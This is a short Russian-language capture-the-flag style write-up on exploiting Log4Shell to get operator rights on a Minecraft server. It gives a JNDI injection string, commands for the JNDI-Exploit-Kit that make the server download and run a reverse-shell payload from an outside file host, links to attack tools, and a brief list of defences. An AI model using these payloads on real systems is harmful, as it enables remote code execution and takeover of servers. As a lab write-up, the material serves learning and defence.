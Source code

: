 # День шестой (Log4j)
-- -
### Цель атаки: 
Получить права оператора (`/op`) на майнкрафт сервере

### Решение:

Уязвимость заключается в неправильном форматировании логов в библиотеке Log4J для Java. Благодаря ошибке можно получить
доступ к протоколу JNDI, что по сути эквивалентно удаленному исполнению Java коду. PoC: `${jndi:ldap://<your-ip>}`
Отправляя строчку с эксплоитом в чате сервера можно получить Reverse Shell (обратный шелл к серверу) и исполнять
произвольные команды на нем. Используя https://www.revshells.com/ генерируем Python3 эксплоит, который заливаем на
наш сервер (в нашем случае это будет https://tmpfiles.org/). Далее используя уязвимость Log4J заставляем сервер скачать
наш эксплоит и исполнить его.

### Итоговый эксплоит:
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget <url с эксплоитом>"`

Отправляем в чат `${jndi:ldap://<url из предыдущего шага>}`

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "python3 <файл с эксплоитом>"`

Отправляем в чат `${jndi:ldap://<url из предыдущего шага>}`

screen/tmux attach to server session

`/op pufit`

### Интсрументы и полезные ссылки
- Онлайн конструктр реверс шелов https://www.revshells.com/
- Экслоит кит https://github.com/pimps/JNDI-Exploit-Kit
- Сайт для временного хранения файлов (и доступа к ним по HTTP) https://tmpfiles.org/


### Способ защиты
- Обновить версию java на всех устройствах
- Обновить Log4j до последней версии
- Не использовать устаревшие версии Java
- Не заходить на недоверенные сервера без патча
